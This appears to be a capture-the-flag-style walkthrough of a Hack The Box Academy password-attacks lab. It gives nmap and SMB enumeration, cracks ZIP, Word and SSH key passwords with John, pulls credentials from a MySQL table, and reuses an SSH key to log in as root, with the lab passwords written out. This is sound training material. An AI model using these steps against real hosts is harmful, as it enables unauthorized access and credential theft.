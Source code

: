 # Password Attacks Lab - Medium  

[Password Attacks Lab - Medium](https://academy.hackthebox.com/module/147/section/1335)  

>Host is a workstation used by an employee for their day-to-day work. 
>These types of hosts are often used to exchange files with other employees and are typically administered by administrators over the network.
>During a meeting with the client, we were informed that many internal users use this host as a jump host. 
>The focus is on securing and protecting files containing sensitive information.  

## Enumeration  

>NMAP Scans and results:  

```
sudo nmap -p 22,139,445 10.129.202.221 -sCV -A -O

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: SKILLS-MEDIUM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 1s
| smb2-time: 
|   date: 2023-07-16T17:43:55
|_  start_date: N/A
```  

### SMB  

>Enumerate if any shares allow anonymous or null unauthenticated read of data and files.

```
smbmap -u '' -H 10.129.202.221
```  

>Discovering a share `SHAREDRIVE` that allow read access anonymously.  

```
smbclient -N \\\\10.129.202.221\\SHAREDRIVE

get Docs.zip
```

>Extract the ZIP password hash, and then Crack password protected zip file using `John`.  

```
zip2john Docs.zip >docs.hash

john docs.hash --wordlist=resources/demo-pass.lst
```  

>Cracking the Office Document DOCX file password with `office2john`. [Cracking Documents](https://academy.hackthebox.com/module/147/section/1322)  

```
office2john Documentation.docx >office.hash

john office.hash --show
```

>Office DOCX file password cracked as `987654321`, and discover the Microsoft Word Document content as below.  

![office2john-Password-Attacks-Lab-Medium](/images/office2john-Password-Attacks-Lab-Medium.png)  

>Discovered password information from word document, as below:  

```

Root password is jason:C4mNKjAtL2dydsYa6
>10.129.200.21</inlane.configure.localIp>

http://localhost:8080/cms 
```  

## Foothold

>Gain access to target as `jason` via ssh with the password `C4mNKjAtL2dydsYa6`.  

>Based on the document discovered, enumeration indicate local internal HTTP service on port 8080.

### Local Service Discovery  

>`netstat` and `ss` commands to determine internal ports not accessible on victim from kali externally.   

```
netstat -antup

ss -tulpn
```  

![netstat-Password-Attacks-Lab-Medium](/images/netstat-Password-Attacks-Lab-Medium.png)  

>Discovered MySQL on port 3306 internally.
>Using credentials for `jason` and password of `C4mNKjAtL2dydsYa6` to connect locally to SQL.  

```
mysql -u jason -p

show databases;
use users;
show tables;

select * from creds where name like 'dennis';
```  

![SQL-Password-Attacks-Lab-Medium](/images/SQL-Password-Attacks-Lab-Medium.png)  

>Crednetials for `dennis` and password is `7AUgWWQEiMPdqx`.  

## Lateral Movement  

>Logged in as `dennis` user with the discovered credentials on the internal MySQL service, creds table.

```
su dennis

cd /home/dennis/.ssh
cat id_rsa
```   

>Crack the id_rsa key password for `dennis` using John.  

```
ssh2john id_rsa_dennis.ssh > ssh.hash

john ssh.hash --wordlist=../mut_password.list

ssh dennis@10.129.202.221 -i id_rsa_dennis.ssh
```

>Password for the cracked id_rsa file is `P@ssw0rd12020!`.

## Privilege Escalation  

>Re using the SSH Key from Dennis in an SSH as root with found password for the id_rsa key file Reuse the Password `P@ssw0rd12020!`.  

```
ssh root@10.129.202.221 -i id_rsa_dennis.ssh
id
whoami

cat /root/flag.txt
```

### Port Forwarding  

>Extra: Did not use the port forwarding to privilege escalate, but did for enumeration internal services.  

>[Dynamic Port Forwarding with SSH and SOCKS Tunneling](https://academy.hackthebox.com/module/158/section/1426)  

```
ssh -L 33060:localhost:33060 dennis@10.129.202.221 -i id_rsa_dennis.ssh
```  
